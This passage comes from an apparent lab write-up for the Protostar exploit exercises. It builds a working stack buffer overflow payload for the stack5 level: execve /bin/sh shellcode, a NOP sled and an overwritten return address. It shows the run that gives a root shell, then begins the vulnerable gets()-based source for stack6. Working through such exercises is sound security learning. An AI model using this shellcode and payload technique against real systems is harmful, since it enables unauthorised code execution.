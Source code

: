 As we can see, our buffer starts at **0xbffff7b0**.

Our payload should thus be as follows:

```
'<shellcode>' + '\x90' * (76 - len(shellcode)) + '\xb0\xf7\xff\xbf'
```

Don't forget, little endian, thus the address of the buffer in the stack turns
into \xb0\xf7\xff\xbf.

> Note:
> ```0x90``` is the NOP instruction, or No Operation. It is equivalent to
> ```xchg eax, eax```. It does nothing, but uses up a cycle. It is thus ideal
> for building a "sled" to fill up the buffer.

So with the shellcode mentioned before, at 21 bytes, and the format of our
payload, our final payload should be as follows:

```sh
python -c "print '\x6a\x0b\x58\x99\x31\xc9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * (76-21)  + '\xb0\xf7\xff\xbf'" > /tmp/stack5.pwn
```

Now we have one issue, python is injecting a byte at the end; 0x0a

```sh
root@protostar:/opt/protostar/bin# xxd /tmp/stack5.pwn
0000000: 6a0b 5899 31c9 5268 2f2f 7368 682f 6269  j.X.1.Rh//shh/bi
0000010: 6e89 e3cd 8090 9090 9090 9090 9090 9090  n...............
0000020: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000030: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000040: 9090 9090 9090 9090 9090 9090 b0f7 ffbf  ................
0000050: 0a  
```

This will cause our shell to close as soon as it's loaded. To counter this, we
will execute our payload as follows:

```sh
root@protostar:/opt/protostar/bin# (cat /tmp/stack5.pwn; cat) | ./stack5

whoami
root
```

And we have a shell :)

## Stack6

### Description

https://exploit-exercises.com/protostar/stack6/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);
```